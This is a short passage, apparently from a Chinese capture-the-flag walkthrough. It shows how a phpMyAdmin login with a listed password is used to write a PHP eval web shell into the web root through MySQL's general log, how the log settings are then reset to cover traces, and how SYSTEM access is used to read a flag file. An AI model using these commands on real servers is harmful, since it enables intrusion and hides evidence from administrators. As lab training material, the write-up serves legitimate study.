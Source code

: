 扫描后台后发现存在`phpmyadmin4.8.5`目录，用户名密码为`root`/`Qweasdzxc5`，利用日志写入来`getshell`。

```sql
# 看查有无直接写入权限
show global variables like '%secure_file_priv%';

# 查看日志文件情况
show global variables like "%genera%";

# 开启日志记录
set global general_log='on';

# 日志文件导出指定目录
set global general_log_file='C:\\phpstudy_pro\\WWW\\h3.php';

# 写入一句话目录
select '<?php @eval($_REQUEST["cmd"]);?>';

# 痕迹清理，修改回原来的路径并关闭记录
set global general_log_file='原路径';
set global general_log=off;
```

连上蚁剑，直接是`nt authority\system`权限，在`C:\Users\Administrator\Desktop\flag03.txt`文件中获取到`flag3`。

![](./images/20.png)

